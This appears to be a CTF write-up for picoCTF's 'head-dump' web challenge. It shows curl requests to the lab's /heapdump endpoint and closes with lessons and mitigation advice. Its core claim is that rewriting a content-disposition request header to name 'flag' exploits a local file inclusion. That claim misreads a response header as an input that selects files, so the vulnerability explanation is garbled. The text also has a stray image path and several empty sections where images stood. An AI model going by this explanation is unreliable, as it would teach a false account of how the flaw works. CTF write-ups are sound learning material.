

# head-dump

## Statement

Welcome to the challenge! In this challenge, you will explore a web application and find an endpoint that exposes a file containing a hidden flag.

The application is a simple blog website where you can read articles about various topics, including an article about API Documentation. Your goal is to explore the application and find the endpoint that generates files holding the server's memory, where a secret flag is hidden.

## Recon

When I open the website, I see a basic news site about picoCTF:

[

## Find the API docs

The API documentation is exposed in the following post on the website:


## Review the API docs

The name of the CTF is `head-dump`, and there is a route inside the API documentation, which is a pretty big hint. It contains the following command:

```bash
curl -X 'GET' \
  'http://xebec.cylabacademy.net:22258/heapdump' \
  -H 'accept: */*'
```

With the following response and all the headers the route accepts in the request:

```
accept-ranges: bytes 
cache-control: public,max-age=0  
connection: keep-alive  
content-disposition: attachment; filename="heapdump-1794260559488.heapsnapshot"  
content-length: 11992200  
content-type: application/octet-stream  
date: Mon,09 Nov 2026 21:42:40 GMT  
etag: W/"b6fc88-1a1c2436871"  
keep-alive: timeout=5  
last-modified: Mon,09 Nov 2026 21:42:39 GMT 
x-powered-by: Express
```

## Extract the flag

The request accepts a header that references a file, which makes me think I could put another file there and get back whatever files I want without any checks. The header is the following:

```
content-disposition: attachment; filename="heapdump-1794260559488.heapsnapshot" 
```

In the final request, I replace the file `heapdump-1794260559488.heapsnapshot` with `flag`.

```bash
curl -X 'GET' \
  'http://xebec.cylabacademy.net:22258/heapdump' \
  -H 'content-disposition: attachment; filename="flag"' > flag.txt
```

This command can be shortened by removing part of the header:

```bash
curl 'http://xebec.cylabacademy.net:22258/heapdump' -H 'content-disposition: filename="flag' > flag.txt
```

I redirect the output to `flag.txt` with `>` so I can analyze it more comfortably and simply.

In the `flag.txt` file, the flag is clearly visible:



## Explanation

The API trusts a client-controlled header (`content-disposition`) to decide which file to return, without validating the name. This turns the flaw into a LFI vulnerability, even though it isn't in the URL like in `?page=../../etc/hosts`, which is what is usually looked for.

## What I learned

- An LFI doesn't always live in the URL. A header parameter that decides which file gets served can be just as exploitable.
- API documentation is first-line recon: in it I found the `/heapdump` endpoint and how to use it.
- Any value the client sends and the server uses to build paths must be treated as untrusted.

## Mitigation

Don't build filesystem paths with data sent by the client. If a name is needed, use an identifier that the server maps to a known file, or apply `path.basename()` and check the result against an allowlist. Also, the heap dump endpoint should not be exposed in production.